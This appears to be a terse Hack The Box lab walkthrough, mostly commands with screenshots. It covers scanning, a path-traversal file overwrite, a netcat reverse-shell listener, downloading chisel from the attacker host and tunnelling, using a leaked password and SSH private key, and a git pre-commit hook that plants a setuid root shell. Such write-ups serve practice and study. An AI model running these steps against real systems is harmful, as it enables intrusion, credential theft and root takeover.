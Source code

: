 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bd23ea8e-8d62-47e6-b5dc-85b954b967a3)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.164/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5795739c-4a17-4504-8488-d1ace66b3196)


```
source.zip
git log
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3fad636-4220-495e-bb1d-56e184b5896c)

![image](https://github.com/regarmulia/HTB/assets/33616880/d789400c-a783-427a-912f-402b6a3abb62)

![image](https://github.com/regarmulia/HTB/assets/33616880/259419d5-99bc-40eb-93a0-9564fe70068c)


```
http://10.10.11.164/upcloud
sample
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b4583816-0a36-4f81-9a89-397b094bae2e)


```
Views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/193201c3-0cea-4314-a186-70c17f23143e)


```
..//app/app/views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d1f0daa-1966-4db5-b468-26485f7bd868)

![image](https://github.com/regarmulia/HTB/assets/33616880/0b21c820-b480-440a-94f3-4b8412476caf)


```
nc -lvnp 443
http://10.10.11.164/0xdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3435d421-6ef9-4832-abe4-507d7b8c0462)


```
ifconfig
```
![image](https://github.com/regarmulia/HTB/assets/33616880/187abd6f-a957-4a27-a578-4ec59fe32b48)


```
wget http://10.10.14.2:8000/chisel_1.9.0_linux_amd64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/710b1a2f-ba49-4b90-909f-c340735bdc2d)


```
/chisel_1.9.0_linux_amd64 server -p 8000 –reverse
./chisel_1.9.0_linux_amd64 client 10.10.14.2:8000 R:3000:172.17.0.1:3000
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f932b94-17a3-440f-946b-43b1885d3c3f)

![image](https://github.com/regarmulia/HTB/assets/33616880/261f4c2e-61ba-4924-b826-e91e62068968)


```
http://127.0.0.1:3000/
Soulless_Developer#2022
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c4e06b02-b002-47d4-8f27-9874144fdb20)


```
http://127.0.0.1:3000/dev01/home-backup/src/branch/main/.ssh/id_rsa
```
![image](https://github.com/regarmulia/HTB/assets/33616880/111d3d4a-6636-4f38-b2b0-24b20a9030ca)


```
ssh -i id_rsa dev01@10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/253a8ec4-8df2-4dfd-9717-acc2eaabe53f)


```
./pspy64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0370c502-059d-4b9c-8101-6b96ae788174)

![image](https://github.com/regarmulia/HTB/assets/33616880/7cca059c-705b-4052-b79d-67c0fd5a91fe)


```
/usr/local/bin/git-sync
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
ls -l /tmp/0xdf
/tmp/0xdf -p
```

